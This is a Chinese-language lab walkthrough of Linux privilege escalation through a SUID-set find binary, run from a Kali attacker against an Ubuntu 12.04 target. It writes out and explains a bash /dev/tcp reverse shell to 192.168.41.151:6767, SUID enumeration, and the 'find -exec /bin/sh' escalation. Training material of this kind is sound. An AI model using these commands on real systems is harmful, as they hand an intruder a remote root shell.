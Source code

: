 ### SUID find 命令提权

环境准备：一台 KaliLinux（攻击者）和一台 Ubuntu 12.04.5（靶标）

![](https://pic1.imgdb.cn/item/68bf548958cb8da5c88af39e.png)

靶机上执行命令搭建环境

```
sudo chmod 4777 /usr/bin/find
```

![](https://pic1.imgdb.cn/item/68c2edf758cb8da5c89e4ef1.png)

![](https://pic1.imgdb.cn/item/68bf54b358cb8da5c88af3bc.png)

在靶标上手动创建反弹 Shell 模拟已进入内网情况

```sh
bash -i >& /dev/tcp/192.168.41.151/6767 0>&1
```

**`bash -i`**

- 启动一个 **交互式 bash shell** (`-i` 代表 interactive)
- 这样子进程不会只是执行一次命令后退出，而是会等待用户输入

------

**`/dev/tcp/192.168.41.151/6767`**

- 在 **bash 内置的特殊文件系统**中，`/dev/tcp/HOST/PORT` 表示一个 TCP 连接
- 当你尝试对它进行重定向时，bash 会尝试连接指定的 IP 和端口
- 这里就是：尝试建立到 `192.168.41.151:6767` 的 TCP 连接

------

 **`>&`**

- 这是 **标准输出和标准错误的重定向**
- `>& target` 表示把 **stdout (1) 和 stderr (2)** 一起重定向到目标
- 在这里，目标是 `/dev/tcp/192.168.41.151/6767`，即远程 TCP 连接

------

**`0>&1`**

- 把 **标准输入 (0)** 重定向到 **标准输出 (1)**
- 而标准输出已经被重定向到远程 TCP 连接，因此输入也会来自那个连接

------

**综合效果**

- 启动一个交互式 bash shell (`bash -i`)
- 该 shell 的输入、输出、错误流都被重定向到远程 TCP 连接 (`192.168.41.151:6767`)
- **结果**：一旦远程主机在该端口上监听，执行这条命令的机器就会反向连接过去，并且把一个交互式 shell 提供给远程主机

![](https://pic1.imgdb.cn/item/68bf558958cb8da5c88af412.png)

KaliLinux 监听

![](https://pic1.imgdb.cn/item/68bf559e58cb8da5c88af41b.png)

执行命令查找含有 SUID 权限的命令

```
find / -type f -perm /4000 2>/dev/null
```

**1. `find /`**

- **作用**：从根目录 `/` 开始递归查找整个文件系统

------

**2. `-type -f`**

- **说明**：`-type f` 表示只查找 **普通文件**（regular file）

------

**3. `-perm /4000`**

- **说明**：匹配文件权限位中含有 **SUID 位 (Set User ID on execution)** 的文件
- `/4000` 含义：
  - `/` 表示“按位或匹配”，只要有 **4000** 位，就会被匹配
  - `4000` 表示 SUID 权限位

👉 因此，这里会找到系统中所有设置了 **SUID** 的二进制文件（如 `/usr/bin/passwd`）

------

**4. `2>/dev/null`**

- **说明**：把 **标准错误输出 (stderr)** 重定向到 `/dev/null`，也就是把错误信息丢掉
- 例如，在遍历 `/proc`、`/sys` 等目录时可能会报“权限不足”错误，这样就不会显示出来

![](https://pic1.imgdb.cn/item/68c6c3a6c5157e1a88016348.png)

利用 find 提权

```sh
find . -exec /bin/sh \; -quit
```

`find .`：从当前目录开始遍历

`-exec /bin/sh \;`：对每个匹配到的条目执行 `/bin/sh`。注意这里没有 `{}`，也就是说 `find` 只是运行 `/bin/sh` 这个命令（每次匹配都会启动一次 shell），而不是把匹配的文件名作为参数传给 shell

`-quit`：遇到第一个匹配后立即退出（因此只会启动一次 `/bin/sh`），避免继续遍历

如果 `find` 在高权限上下文中运行（例如被 root/管理员身份执行的脚本、cron job、或者某个有特权的进程间接调用 `find`），那么 `-exec /bin/sh` 会在那个高权限上下文下启动 shell，从而直接获得高权限交互式 shell

![](https://pic1.imgdb.cn/item/68c6c5c2c5157e1a8801649f.png)